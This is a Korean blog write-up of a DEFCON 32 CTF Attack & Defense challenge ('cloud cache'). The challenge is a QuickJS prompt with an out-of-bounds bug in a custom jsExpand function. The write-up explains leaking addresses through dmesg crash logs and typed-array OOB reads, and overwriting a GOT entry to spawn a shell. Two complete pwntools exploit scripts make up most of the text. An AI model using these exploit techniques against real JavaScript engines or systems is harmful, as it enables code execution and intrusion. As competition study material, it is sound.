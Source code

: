 ```yaml
---
title: "DEFCON 32"
dateString: October 2024
draft: false
tags: ["DEFCON CTF"]
weight: 30
date: 2024-08-15
categories: ["CTF"]
# cover:
    # image: ""
---
```

![](/blog/DEFCON_32_cloud_cache-Quickjs_exploitation/4779bf4917b80cd4eeccc66c064b8c41.jpg)
컨퍼런스 티켓도 구매했었는데 대회랑 겹쳐서 전날에 구경밖에 못했다.
![](/blog/DEFCON_32_cloud_cache-Quickjs_exploitation/1c63c55b3cc3452d5a4dd47bd1d7752d.jpg)
숙소 1층에서 DEFCON 셔틀이 있어서 그거 타고 라스베가스 컨벤션 센터로 갈 수 있었다.
1, 2일차에는 여러 문제들 보면서 잡다한 버그들 찾다가 상대팀 패치도 분석해보고 공격 패킷도 분석하면서 시간을 보냈다.
2일차에 마지막으로 release된 Attack & Defense 문제중에 cloud cache를 잡았다.

그날 저녁 열심히 익스플로잇 코드 두 개를 준비해서 갔지만 막상 3일차에 본선장에 가서 다른 팀들한테 쏴봤더니 둘다 동작하지 않아서 당황했다.
원래 계획과는 다르게 팀원분이 다른 취약점으로 준비하신 두 개의 익스플로잇 코드를 먼저 쏘셨다.
이대로 쪽박치는줄 알았지만 코드 수정에 성공해서 많은 팀들을 때릴 수 있었다.
exploit을 원래 자동으로 날려주는 툴이 있었는데 rate limit이 걸려있어서 사용하지 못했다.
그래서 그때부터 대회 끝날때까지 라운드마다 직접 손으로 쐈다.
첫 라운드엔 MMM 플래그도 따였었는데, 패치가 지연되어서 늦게 올라갔던건지 얼마 지나지 않아 패치되었다.
MMM 분들이 패치하자마자 일부 팀들이 백도어 위험을 감수하고 패치를 그대로 적용해버려서 대회 끝날때쯤엔 두 팀 정도를 제외하고 모두 패치되었다.
# cloud cache
유저랜드 프로그램은 quickjs 프롬프트가 나오는 방식이고 커널 드라이버가 로드되어서 같이 상호작용한다.
로컬에서 돌리려고 쌩쇼를 하고 있었는데 팀원분이 유저 프로그램에서 oob를 찾아주셨다.
그래서 oob를 통해 dos를 내고 dmesg를 조합하면 뭔가 익스를 할 수 있을것 같았다.
커널쪽 취약점도 따로 있었다고 하는데 그 부분은 다른 팀원분이 익스를 해주셨다.
## exploit with dmesg
oob dos + dmesg를 조합해서 릭을 했다.
sign extension은 안되고 -1 같은 경우 0xffffffff로 계산되기에 다음 코드는 항상 dos가 난다.
```c
p.sendline('let a = [1.1]; jsExpand(a, -1); a[-3] = 0xdeadbeef')
```
그리고 js_expand 함수 내부에서 JS_ToInt32로 두번째 인자는 검사를 하는데 첫번째 인자를 검사하지 않아 실질적으로 double을 인자로 주면 이게 주소로 인식이 된다.
```c
   ...
  else if ( (JS_ToInt32)(ctx, &new_len, argv[1].u.ptr, argv[1].tag) )
  {
    return 0LL;
  }
  else
  {
    v5 = new_len;
    v6 = *(argv->u.ptr + 4);
    *(argv->u.ptr + 8) = new_len;
    result = v5;
    *v6 = v5;
  }
  return result;
}
```
그래서 js_expand 함수 내부 로직을 통해 4 byte aaw가 가능해진다.
그런데 실질적으로 쓰기 연산 자체는 8 byte 단위여서 다른 방법을 찾기로 했다.
```python
# double array 
# element ptr | length
# heap chunk size | element 1 | element 2 ...
# --- normal oob array ---
# contraints : 0x10 aligned & oob 8bytes + type data
p.sendline('let a = [1.1]; jsExpand(a, -1); a[-3] = 0xdeadbeef')
```
이런식으로 일반 array를 쓰면 내부적으로 64bit value | type data 가 포함된 형태로 저장되었다.
그래서 실질적으로 0x10 aligned 된 쓰기만 가능했다.
읽기를 할때도 항상 tag 검사가 있어서 실질적으로 oob leak이 불가능했다.
dmesg로 quickjs.so의 base를 구할 수 있었다.
어떻게 array를 배치해도 메모리 상에서 +0x8 위치에 있는 element pointer를 덮을 수 없었다.

그러다가 Float64Array 같은 type이 지정된 array를 만들면 type 정보가 생략된다는 것을 알았다.
```python

from pwn import *
import base64
context.log_level='debug'
def exploit(ip: str, port: int) -> str | None:
    r_info = remote(ip, port)
    r_info.recvline()
    r_info.recvuntil('telnet ')
    ip, port = r_info.recvline()[:-1].split()
    port = int(port)

    p = remote(ip, port)
    p.sendline('a = [1.1, 2.2]; jsExpand(a, -1); a[-3] = 0xdeadbeef')
    p.close()
    p = remote(ip, port)
    p.sendline('dmesg()')
    while True:
        if p.recvuntil(b'Code: ', timeout=1.5) == b'':
            break
    msg = p.recvuntil(b'undefined')
    quickjs_base = int(msg[msg.find(b'RAX:'):].split()[1],16) - 0x21078
    log.success(hex(quickjs_base))
    libc_base = quickjs_base - 0x229000# - 0x23b000 # local offset
    log.success(hex(libc_base))
    libc_got = libc_base + 0x21a098
    global_ctx = int(msg[msg.find(b'RDI:'):].split()[1],16)
    log.success(hex(global_ctx))
    heap = int(msg[msg.find(b'RSI:'):].split()[1],16)
    target = heap + 0x1bf0
    log.success(hex(target))
    p.close()
    p = remote(ip, port)
    p.sendline('let memory = new ArrayBuffer(8); let view_u32 = new Uint32Array(memory); let view_f64 = new Float64Array(memory); let view_u8 = new Uint8Array(memory); function i64_to_f64(low, high) {view_u32[0] = low; view_u32[1] = high; return view_f64[0];};')
    sleep(0.5)
    p.sendline('let a = new Float64Array(4); a[0] = 1.1; a[1] = 2.2; a[2] = 3.3; jsExpand(a, -1);')
    sleep(0.5)
    p.sendline(f'let b = new Float64Array(4); b[0] = 1.1; b[1] = 2.2; b[2] = 3.3; jsExpand(b, -1); b[13] = i64_to_f64({(libc_got)&0xffffffff}, {libc_got >> 32}); b[0] = i64_to_f64({(libc_base + 0x50d70)&0xffffffff}, {libc_base >> 32}); "/bin/sh";')
    sleep(0.5)
    p.recvuntil(b'undefined')
    p.recvuntil(b'-1')
    p.recvuntil(b'\xfb')
    p.sendline('cat /fla? | base64')
    flag = base64.b64decode(p.recvline()[:-1]).decode()
    return flag

print(exploit('localhost', 9999))
```
하지만 위 방식의 익스플로잇 코드는 로컬 환경에선 동작했지만 대회장에 가서는 동작하지 않았다.
두 번째 익스플로잇처럼 수정했다면 동작했을 수 있었겠지만, 익스플로잇 수정이 완료되었을 시간엔 거의 패치가 완료되었을 것이라 생각했기에 바로 두번째 익스플로잇을 이용했다.
## exploit without dmesg
첫 번째 익스플로잇을 짜다가 발견했던 type 정보 생략을 이용해서 메모리 릭도 자체적으로 수행할 수 있을 것이라고 생각했다.
function을 정의해서 할당 관련 함수를 힙에 남기고 이를 릭해서 quickjs.so의 base를 얻을 수 있었다.
대회장에선 동작을 안해서 좀 더 안정적으로 만들기 위해 element pointer를 quickjs.so의 got로 변조해서 libc의 base를 얻도록 수정했다.
```python
from pwn import *
import base64
import struct
def exploit(ip: str, port: int) -> str | None:
    # r_info = remote(ip, port)
    # r_info.recvline()
    # r_info.recvuntil('telnet ')
    # ip, port = r_info.recvline()[:-1].split()
    # port = int(port)

    p = remote(ip, port)
    sleep(3)
    p.sendline('let memory = new ArrayBuffer(8); let view_u32 = new Uint32Array(memory); let view_f64 = new Float64Array(memory); let view_u8 = new Uint8Array(memory);')
    sleep(0.5)
    p.sendline('let a = new Float64Array(4); a[0] = 1.1; a[1] = 2.2; a[2] = 3.3; jsExpand(a, -1);')
    sleep(0.5)
    p.sendline(f'let b = new Float64Array(4); b[0] = 1.1; b[1] = 2.2; b[2] = 3.3; jsExpand(b, -1); console.log("lk:"+b[13]);')
    p.recvuntil(b'lk:')
    lk = float(p.recvline()[:-1])
    object_elemnt_ptr = struct.unpack('<Q', struct.pack('<d', lk))[0] 
    log.success(hex(object_elemnt_ptr))
    p.sendline('let f = () => {return 1;};')
    sleep(0.5)
    p.sendline(f'console.log("lk:"+b[{0x48}]);')
    p.recvuntil(b'lk:')
    lk = float(p.recvline()[:-1])
    quickjs_base = struct.unpack('<Q', struct.pack('<d', lk))[0] 
    if quickjs_base == 0:
        log.info('leak failed. retrying ...')
        sleep(0.5)
        p.sendline(f'c = console.log; console.log("lk:"+b[{0x4e}]);')
        p.recvuntil(b'lk:')
        lk = float(p.recvline()[:-1])
        quickjs_base = struct.unpack('<Q', struct.pack('<d', lk))[0] 
        if quickjs_base == 0:
            for i in range(10):
                log.info(f'trying - {i}')
                sleep(0.3)
                p.sendline(f'c = console.log; console.log("lk:"+b[{0x48 + i}]);')
                p.recvuntil(b'lk:')
                lk = float(p.recvline()[:-1])
                quickjs_base = struct.unpack('<Q', struct.pack('<d', lk))[0] 
                if quickjs_base & 0xf30 == 0xf30:
                    break
    assert quickjs_base != 0
    
    quickjs_base -= 0xff30
    quickjs_got = quickjs_base + 0xa9068 # free 
    log.success(hex(quickjs_got))
    p.close()

    p = remote(ip, port)
    sleep(3)
    p.sendline('let memory = new ArrayBuffer(8); let view_u32 = new Uint32Array(memory); let view_f64 = new Float64Array(memory); let view_u8 = new Uint8Array(memory); function i64_to_f64(low, high) {view_u32[0] = low; view_u32[1] = high; return view_f64[0];};')
    sleep(0.5)
    p.sendline('let a = new Float64Array(4); a[0] = 1.1; a[1] = 2.2; a[2] = 3.3; jsExpand(a, -1);')
    sleep(0.5)
    p.sendline(f'let b = new Float64Array(4); b[0] = 1.1; b[1] = 2.2; b[2] = 3.3; jsExpand(b, -1); b[13] = i64_to_f64({(quickjs_got)&0xffffffff}, {quickjs_got >> 32}); console.log("lk:"+b[0]);')
    sleep(0.5)# = i64_to_f64({(libc_base + 0x50d70)&0xffffffff}, {libc_base >> 32}); "/bin/sh";
    p.recvuntil(b'lk:')
    lk = float(p.recvline()[:-1])
    libc_base = struct.unpack('<Q', struct.pack('<d', lk))[0] - 0xa53e0
    log.success(hex(libc_base))
    libc_got = libc_base + 0x21a098
    p.close()

    p = remote(ip, port)
    sleep(3)
    p.sendline('let memory = new ArrayBuffer(8); let view_u32 = new Uint32Array(memory); let view_f64 = new Float64Array(memory); let view_u8 = new Uint8Array(memory); function i64_to_f64(low, high) {view_u32[0] = low; view_u32[1] = high; return view_f64[0];};')
    sleep(0.5)
    p.sendline('let a = new Float64Array(4); a[0] = 1.1; a[1] = 2.2; a[2] = 3.3; jsExpand(a, -1);')
    sleep(0.5)
    p.sendline(f'let b = new Float64Array(4); b[0] = 1.1; b[1] = 2.2; b[2] = 3.3; jsExpand(b, -1); b[13] = i64_to_f64({(libc_got)&0xffffffff}, {libc_got >> 32}); b[0] = i64_to_f64({(libc_base + 0x50d70)&0xffffffff}, {libc_base >> 32}); "/bin/sh";')
    sleep(0.5)
    p.recvuntil(b'undefined')
    p.recvuntil(b'-1')
    p.recvuntil(b'\xfb')
    # p.sendline('rev /flag')
    # p.sendline("cat /flag")
    p.interactive()
# context.log_level='debug'

import sys
(exploit(f'10.10.{sys.argv[1]}.1', int(sys.argv[2])))
```

![](/blog/DEFCON_32_cloud_cache-Quickjs_exploitation/e1984dde2de61b1ba18fea92027fde1f.png)
![](/blog/DEFCON_32_cloud_cache-Quickjs_exploitation/24e81fef68818f92515cc69b97e5d6eb.png)
이런식으로 매 라운드마다 팀원분들과 함께 열심히 다른팀에 쐈다.
이거 말고도 몇 가지 quickjs 1-day도 다 먹혔다고 하는데 시간이 없어서 1-day 익스는 짜지 못했다.  